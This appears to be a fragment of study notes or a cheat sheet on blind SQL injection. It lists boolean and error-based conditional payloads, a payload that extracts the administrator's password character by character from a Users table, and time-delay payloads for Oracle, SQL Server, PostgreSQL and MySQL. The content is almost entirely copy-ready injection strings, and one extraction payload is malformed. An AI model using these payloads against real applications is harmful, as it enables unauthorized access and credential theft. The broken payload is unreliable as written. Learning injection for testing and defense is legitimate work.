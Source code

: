 
ex : 

```sql 
azerty' --   => application response with 'Welcome' 

azerty '' -- => application doest not response with 'Welcome' 
```


### usage of  CASE
```sql
xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a    equivalent to  xyz' and 'a'='a
```

```sql
xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a    equivalent to   xyz' and 1/0='a   => not the normal behaviour of the app

```

### retrive data using this technique:  


```sql
xyz' AND (SELECT CASE WHEN (AND SUBSTRING(Password,1,1) ='m') THEN 1/0 ELSE 'a' END FROM Users where username = 'administrator')='a
```
 


## blind sql time based

when there isn't any error printed due to syntax error.

```sql
Oracle	dbms_pipe.receive_message(('a'),10)
Microsoft	WAITFOR DELAY '0:0:10'
PostgreSQL	SELECT pg_sleep(10)
MySQL	SELECT SLEEP(10)
```



## blindsqli with conditional time delays in order to leak info 



```sql
Oracle	    SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual
Microsoft	IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'
PostgreSQL	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END
MySQL	    SELECT IF(YOUR-CONDITION-HERE,SLEEP(10),'a')

```


